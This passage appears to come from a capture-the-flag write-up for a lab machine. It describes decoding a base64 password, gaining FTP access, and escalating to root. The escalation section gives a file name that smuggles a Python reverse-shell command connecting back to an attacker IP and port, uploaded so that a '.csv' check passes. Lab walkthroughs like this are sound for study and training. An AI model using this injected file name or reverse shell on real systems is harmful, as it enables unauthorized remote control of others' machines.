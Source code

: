 We are going to decode the password in *** base64 ***. 

<p align = "center">
<img src = "/assets/images/img-pikaboo/captura44.png">
</p>

let's check if this password works when accessing via ftp. and we see that if we can access and in this case we can access the directories. in this case I did not find any interesting file.

<p align = "center">
<img src = "/assets/images/img-pikaboo/captura45.png">
</p>

## Privilege Escalation

OK, what now? After logging in as pwnmeow user we can upload the file in one of the directories via this FTP server, We need ***.csv*** at the as to bypass the check in the payload file. Now let's create the payload as .csv file on the local machine.

```
touch "|python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"10.10.16.113\",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"sh\")';echo .csv"
```
Ok now what we are going to do is to upload the payload in the ftp server, in my case what I have done is from my local computer create an empty file called "test" and then paste the payload specifying the ip address and the port that we are listening in netcat.

And that's it, you are the root user on the victim machine.

<p align = "center">